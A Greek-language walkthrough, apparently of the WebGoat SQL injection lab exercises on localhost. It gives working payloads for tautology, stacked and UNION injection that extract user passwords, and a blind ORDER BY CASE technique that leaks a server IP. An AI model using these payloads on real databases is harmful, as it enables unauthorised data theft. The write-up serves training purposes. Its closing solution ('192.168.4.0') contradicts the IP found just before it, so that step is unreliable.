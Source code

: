 # SQL Injection

## Βασική Εισαγωγή SQL Injection

1. Εισαγάγετε το `Smith` ως ερώτημα.
2. Τα επιστρεφόμενα δεδομένα περιέχουν πληροφορίες για τον Jon Smith.
   ![Εικόνα Smith](images/smith.png)
3. Όταν η εισαγωγή SQL γίνεται σύμφωνα με το μάθημα, ανακτώνται όλες οι εγγραφές του πίνακα χρηστών:
4. Εισαγάγετε `Smith' or '1'='1` ως ερώτημα (προσοχή: μην προσθέσετε επιπλέον μονό εισαγωγικό στο τέλος, καθώς περιλαμβάνεται ήδη στο ερώτημα).
5. Τα επιστρεφόμενα δεδομένα περιέχουν όλες τις εγγραφές από τον πίνακα χρηστών.

## Για Αριθμητική Εισαγωγή SQL

1. Εισαγάγετε `1 or 1=1` ή ακόμα και `1 or true` ως ερώτημα.
2. Τα επιστρεφόμενα δεδομένα περιέχουν όλες τις εγγραφές από τον πίνακα χρηστών.
   ![Εικόνα Number](images/number.png)

## Προηγμένη SQL

### Επίθεση Union

#### Γρήγορη Απάντηση
Γράψτε το παρακάτω ερώτημα:
```sql
asd' or true; select * from user_system_data; --
```
* Το όνομα του πίνακα είναι προεπιλεγμένο και μπορεί να βρεθεί στο διαδίκτυο.

#### Αναλυτική Απάντηση
1. Η πρώτη προσπάθεια ήταν να εισαχθεί το `Smith`, καθώς είναι υπαρκτός χρήστης, το οποίο επέστρεψε αποτελέσματα παρόμοια με την προηγούμενη άσκηση. Αυτό μας δίνει πληροφορίες για τη δομή του πίνακα χρηστών: έχει 7 στήλες: `USERID`, `FIRST_NAME`, `LAST_NAME`, `CC_NUMBER`, `CC_TYPE`, `COOKIE`, `LOGIN_COUNT`.
2. Στη δεύτερη προσπάθεια, χρησιμοποιήθηκε η εντολή UNION:
   ```sql
   Smith' union all select userid, user_name, user_name, user_name, user_name, password, cookie from user_system_data; --
   ```
   με αίτημα για 7 στήλες (επαναλαμβάνοντας το `user_name` αρκετές φορές).
3. Ωστόσο, το αποτέλεσμα εμφανίζει το μήνυμα:
   ![Εικόνα Data Types](images/data_types.png)
4. Ας δοκιμάσουμε τώρα ένα διαφορετικό ερώτημα:
   ```sql
   Smith' union select 1, password, password, password, password, password, 1 from user_system_data; --
   ```
   Αποδεικνύεται ότι οι στήλες `USERID` και `LOGIN_COUNT` είναι αριθμητικοί τύποι, ενώ οι υπόλοιπες στήλες του πίνακα χρηστών είναι συμβολοσειρές.
   ![Εικόνα Passwords](images/passwords.png)

## SQL Injection (Μέτρα Αντιμετώπισης)

* Κάνοντας κλικ στη στήλη ταξινόμησης, εκτελείται ένα αίτημα στο:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=ip
  ```
  Το αίτημα αυτό μπορεί να εκμεταλλευτεί με την υποκλοπή του μέσω του ZAP και την παροχή μιας προετοιμασμένης συμβολοσειράς ως `ip`.

* Για να αποκτήσουμε μια ιδέα για τη διεύθυνση IP του `webgoat-prd`, πρέπει πρώτα να βρούμε το όνομα του πίνακα και τη στήλη της IP. Η προφανής εικασία είναι `servers` και `ip`:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)
  ```
* Εάν το όνομα του πίνακα και της στήλης είναι σωστά, ο πίνακας θα ταξινομηθεί βάσει των `id`.
* Μετά την υποκλοπή και την τροποποίηση του αιτήματος, ο πίνακας ταξινομείται βάσει `id`, άρα η εικασία ήταν σωστή.
* Για να ελέγξουμε τη λογική μας, ας στείλουμε το αίτημα:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM whatever WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)
  ```
  (το `servers` αντικαταστάθηκε με `whatever`).
* Αυτό επιστρέφει τη σελίδα σφάλματος:
  ```html
  <html><body><h1>Whitelabel Error Page</h1>
    <p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p>
    <div id='created'>Thu Mar 08 17:36:52 UTC 2018</div>
    <div>There was an unexpected error (type=Internal Server Error, status=500).</div>
    <div>user lacks privilege or object not found: SERVER</div>
  </body></html>
  ```

Τώρα, γνωρίζοντας τον πίνακα και τη στήλη, ας προσπαθήσουμε να αποκτήσουμε μια ιδέα για την IP του `webgoat-prd`:
1. ```
   http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-prd') LIKE '192.168.%' THEN id ELSE hostname END)
   ```
   ταξινομείται βάσει `hostname` → λανθασμένη εικασία.
2. `LIKE '192.%'`, ταξινομείται βάσει `hostname` → λανθασμένη εικασία.
3. `LIKE '1%'`, ταξινομείται βάσει `ip` → σωστή εικασία! Τώρα μπορούμε να συνεχίσουμε κατά μία θέση.
4. `LIKE '10%'`, ταξινομείται βάσει `ip` → σωστή εικασία!
5. Μετά από αρκετές προσπάθειες…
6. `LIKE '104.130.219.202'`, ταξινομείται βάσει `ip` → σωστή εικασία! Αυτή είναι η πλήρης διεύθυνση IP.
Με γνωστή την `IP 104.130.219.202`, παρέχοντάς την στο πεδίο εισαγωγής επιστρέφεται:
   ![Εικόνα Mitigations](images/mitigations.png)
7. Λύση: `192.168.4.0`
